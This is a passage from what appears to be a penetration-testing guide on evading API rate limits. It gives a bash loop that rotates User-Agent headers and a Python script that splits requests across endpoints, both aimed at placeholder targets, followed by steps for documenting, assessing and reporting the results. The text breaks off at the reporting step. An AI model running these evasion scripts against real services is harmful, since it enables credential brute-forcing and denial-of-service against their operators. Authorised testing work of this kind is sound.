 ```bash
for i in {1..20}; do
  ua=$(echo "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.124 Safari/537.36 Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/14.1.1 Safari/605.1.15 Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:89.0) Gecko/20100101 Firefox/89.0" | awk -v n="$((RANDOM % 3 + 1))" '{print $n}')
  curl -H "User-Agent: $ua" -I http://<target_service_ip>:<target_service_port>/api/endpoint
done
```

**Strategy 3: Endpoint Variation/Splitting Requests Across Multiple Endpoints**

**Step 8: Identify Multiple Endpoints**

Investigate the target service for multiple related endpoints. Even if some endpoints are seemingly similar, they might be handled by separate rate limiting rules or not be subject to rate limiting at all. For example, `/api/data` and `/api/data/details`

**Step 9: Split Requests Across Endpoints**

```python
import requests
import random

endpoints = [
    "http://<target_service_ip>:<target_service_port>/api/endpoint",
    "http://<target_service_ip>:<target_service_port>/api/data",
    "http://<target_service_ip>:<target_service_port>/api/data/details"
]

for _ in range(30):
    url = random.choice(endpoints)
    try:
        response = requests.get(url)
        print(f"Request to {url}: Status Code {response.status_code}")
    except requests.exceptions.RequestException as e:
        print(f"Request failed: {e}")
```

Explanation:  This script randomly selects from a list of endpoints to make requests. This can avoid rate limiting if rate limits are specific to a single endpoint.

Expected Output: Successful requests to all endpoints without triggering rate limits on any single one.

**Phase 3: Exploitation and Reporting**

**Step 10: Document Successful Evasion Methods**

Record the specific techniques that successfully evaded the rate limiting mechanisms.  Include detailed configuration information, scripts, and observed behavior.

**Step 11: Assess Impact**

Based on the successful evasions, assess the potential impact on the system. This includes the ability to brute-force credentials, launch DoS attacks, or perform other malicious activities.

**Step 12: Report Vulnerability**
